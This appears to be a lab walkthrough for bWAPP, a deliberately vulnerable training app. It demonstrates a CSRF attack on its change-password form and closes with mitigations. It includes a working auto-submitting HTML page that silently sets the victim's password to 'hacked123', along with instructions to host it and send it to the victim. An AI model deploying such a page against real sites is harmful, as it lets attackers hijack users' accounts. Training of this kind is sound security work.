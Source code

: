 # 🛡️ CSRF Exploit – bWAPP Walkthrough

# 🔧 Environment
- **App**: bWAPP (Bee-Box VM)
- **Module**: CSRF → Change Password (low security)
- **Tools**: Browser, Burp Suite

---

# 🎯 Objective
Exploit a CSRF vulnerability to change another user's password **without their knowledge**.

---

# 🔍 Steps to Reproduce

### 1. Login as victim user
URL: `http://localhost/bWAPP/login.php`

Credentials:
- Username: `bee`
- Password: `bug`

Navigate to: `http://localhost/bWAPP/csrf_1.php`

### 2. Inspect Change Password Form

The form sends a POST request like:

```http
POST /bWAPP/csrf_1.php
password_new=test123&password_conf=test123&form=submit

### 3. Create Malicious CSRF Page



<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost/bWAPP/csrf_1.php" method="POST">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="form" value="submit">
      <input type="submit" value="Click me">
    </form>
    <script>
      document.forms[0].submit(); // Auto-submit the form
    </script>
  </body>
</html>

---

Host this file and send it to the victim. Once they open it while logged in, their password gets changed silently.

🧪 Test Verification

Try logging in with:

Username: bee
Password: hacked123

If successful: CSRF vulnerability confirmed

🧰 Mitigation Measures

Anti-CSRF tokens: Use unpredictable tokens tied to session.
SameSite Cookies: Set SameSite=Strict or Lax in cookie headers.
Referer or Origin Checks: Validate that requests originate from the same domain.

Example using token:

html code


<input type="hidden" name="csrf_token" value="abc123">
Server must verify this token before processing.

✅ Summary
CSRF can silently exploit authenticated sessions. Even simple state-changing actions like changing passwords or emails can be hijacked. Always use tokens and strict cookie policies to defend against it.


